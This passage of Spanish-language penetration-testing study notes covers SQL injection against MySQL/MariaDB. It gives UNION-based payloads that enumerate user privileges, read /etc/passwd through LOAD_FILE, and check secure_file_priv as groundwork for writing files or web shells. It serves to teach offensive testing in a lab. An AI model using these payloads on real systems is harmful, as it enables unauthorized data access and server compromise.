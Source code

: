 ```
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

Si la consulta nos devuelve "Y" significa yes indicandonos que es asi

```
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

Podemos añadir 

```
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/9c8727e6-3991-4408-b3f6-6649d1cb2d37)

### EJECUTAR UN FICHERO

Ahoar que sabemos los privilegios que tenemos, podemos usar "LOAD_FILE()" usando MariaDB / MySQL para leer información de los ficheros. La funcion toma argumentos por ejemplo /etc/passwd

```
SELECT LOAD_FILE('/etc/passwd');
```

Es similiar pero con la injección "UNION"

```
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```
![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/5a3ad33b-2d59-4b54-8c92-2743ac7c6af9)


# ESCRIBIR ARCHIVOS

Cuando escribimos archivos del servidor back-end, nos restricciona el modelo DBMS, cuando utilziamos una web shell, o cuando hacemos ejecución de codigo.

## ESCRIBIR ARCHIVOS PRIVILEGIOADO

Para poder escribir ficheros en el back-end requerimos tres cosas:

1. El usuario con privilegios del fichero
2. MySQL variable "secure_file_prive" no este activa
3. Acceso de escritura de la localizacion en al que queremos escribir.

### SECURE_file_prive

Se usa para determinar cuando lees/escriber. Los valores del sistema, nosotros podemos eler archivos o ficheros, no podemos leer directorios. 

```
SHOW VARIABLES LIKE 'secure_file_priv';
```
